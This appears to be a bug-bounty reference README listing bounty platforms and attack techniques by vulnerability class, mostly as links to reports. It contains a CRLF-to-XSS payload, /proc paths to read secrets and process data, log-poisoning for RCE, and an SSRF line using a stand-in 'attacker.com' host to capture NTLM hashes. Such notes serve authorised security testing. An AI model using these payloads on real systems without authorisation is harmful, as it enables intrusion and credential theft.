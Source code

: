 # Platforms

## Russian

- https://bugbounty.ru
- https://yandex.ru/bugbounty/index
- https://support.kaspersky.ru/vulnerability/overview/12428?el=12429#block2
- https://www.jivo.ru/bugbounty/ 
- https://www.cloud4y.ru/cloud-services/bugbounty/ 
- https://kontur.ru/bugbounty 
- https://ru.liveagent.com/programma-bag-baunti/ 
- https://corp.mamba.ru/ru/developer/security 
- https://love.ru/bugbounty/ 
- https://bugbounty.mts-link.ru/
## Worldwide

- https://immunefi.com/
- https://bughunters.google.com/about/rules/5604090422493184/google-play-security-reward-program-rules
- https://www.intigriti.com/programs
- https://code4rena.com/

# by Schemes

- [Attacking Redis db via CR symbols in `git://` link](https://hackerone.com/reports/441090)
- [A tool](https://github.com/tarunkant/Gopherus) to attack different network services via a `gopher://` link

# by Vulns

## Cross-tenant attacks (related for cloud providers)

- [Finding local orchestrator API via script execution ability](https://orca.security/resources/blog/autowarp-microsoft-azure-automation-service-vulnerability/?ref=danaepp.com)
- [The confused deputy problem](https://securitylabs.datadoghq.com/articles/appsync-vulnerability-disclosure/)
## CRLF Injection

[Session Fixation](https://hackerone.com/reports/15492) via [nginx misconfiguration](http://blog.volema.com/nginx-insecurities.html)

Escalation to XSS: 
```
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
```

## Local File Read

Read `web.config` file to obtain .NET ViewState's MachineKey and DecryptionKey, which are allow you to do deserialization attacks: https://www.silentgrid.com/blog/local-file-read-to-rce/.

Leak some [juicy OS info](https://www.kernel.org/doc/html/latest/filesystems/proc.html):
- /proc/version - OS Version
- /proc/net/tcp - open TCP ports
- /proc/net/udp - open UDP ports
- /proc/sched_debug - can be used to retrieve running processes
- /proc/mounts - mounted devices
- /proc/[PID]/cmdline - command line that triggered the running process (fuzz pid here)
- /proc/[PID]/environ - environment variables accessible to the process
- /proc/[PID]/cwd - current working directory of the process
- /proc/[PID]/fd/[n] - files opened by the process
- /proc/[PID]/exe - link to the executable file

## Local File Inclusion

Read `../../../../var/log/apache2/access.log` or [same file via proc](https://xen0vas.github.io/Exploiting-the-LFI-vulnerability-using-the-proc-self-stat-method/#) to get RCE via `User-Agent`.

## SSRF

Try `\\attacker.com\test.jpg` links with a running Responder to capture Net-NTLMv2 hashes.

## Open Redirect

Can be escalated when app uses OAuth; redirection can be done using `javascript:` scheme (see https://rdnzx.medium.com/chaining-open-redirect-with-xss-to-account-takeover-36acf218a6d5 and some more payloads for fuzzing in hacktricks).

Redirection is found on reverse proxy and [can move you to internal servises (SSRF)](https://blog.detectify.com/2019/05/16/the-real-impact-of-an-open-redirect/).

## WebView

[RCE via @JavascriptInterface](https://dphoeniixx.medium.com/tiktok-for-android-1-click-rce-240266e78105)

## File upload

Always look for the command injection if you have noticed that your files are edited or converted in some way.

### Image

Basically SVG files can be used to insert arbitary JavaScript code via `script` tag and even entire HTML-markup via the `foreignObject` tag: https://github.com/allanlw/svg-cheatsheet.

If an old version of librsvg is used to convert SVG to PNG, it can cause a [memory leakage](https://hackerone.com/reports/2107680).

### Video

[SSRF-LFR in FFmpeg](https://hackerone.com/reports/1062888)

### XLSX

[XXE](https://hackerone.com/reports/105434)

## Serialization
### PHP

https://habr.com/ru/articles/708384/